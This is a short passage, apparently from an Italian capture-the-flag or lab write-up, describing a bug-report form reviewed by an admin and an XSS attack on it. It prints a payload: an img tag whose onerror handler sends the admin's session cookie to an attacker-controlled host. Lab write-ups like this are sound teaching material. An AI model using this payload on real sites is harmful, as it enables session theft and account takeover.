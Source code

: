 Si fa un test per il report dei bug.

![Admin Review](./img/admin_review.png)

Quindi i report vengono visionati dall'**Admin**.

## XSS

Si prova un **XSS** per catturare i **cookie** di sessione dell'utente **Admin**.

```text

<img src=1 onerror='fetch("http://10.10.16.x:9001/"+document.cookie)'>

```
